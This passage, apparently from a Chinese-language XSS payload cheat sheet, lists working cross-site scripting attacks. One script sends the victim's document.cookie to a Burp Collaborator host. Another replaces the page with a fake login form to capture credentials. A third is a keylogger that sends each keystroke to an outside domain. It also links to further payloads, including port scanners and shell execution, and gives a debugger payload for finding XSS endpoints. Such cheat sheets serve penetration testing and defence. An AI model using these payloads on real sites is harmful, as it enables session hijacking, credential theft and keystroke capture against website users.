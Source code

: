 ```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### 界面伪装

利用XSS修改页面HTML内容以显示虚假登录表单。

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>请登录以继续</h1><form>用户名: <input type='text'>密码: <input type='password'></form><input value='提交' type='submit'>"
</script>
```

### JavaScript键盘记录器

收集敏感数据的另一种方法是设置JavaScript键盘记录器。

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### 其他方式

更多利用方式请访问 [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [使用XSS和HTML5 Canvas截屏](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript端口扫描器](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [网络扫描器](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell执行](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [重定向表单](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [播放音乐](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## 识别XSS端点

此有效载荷会在开发者控制台中打开调试器，而不是触发弹窗。

```javascript
<script>debugger;</script>
```

具有内容托管的现代应用程序可以使用[沙箱域][sandbox-domains]

> 安全地托管各种类型的用户生成内容。许多这些沙箱专门用于隔离用户上传的HTML、JavaScript或Flash小程序，并确保它们无法访问任何用户数据。
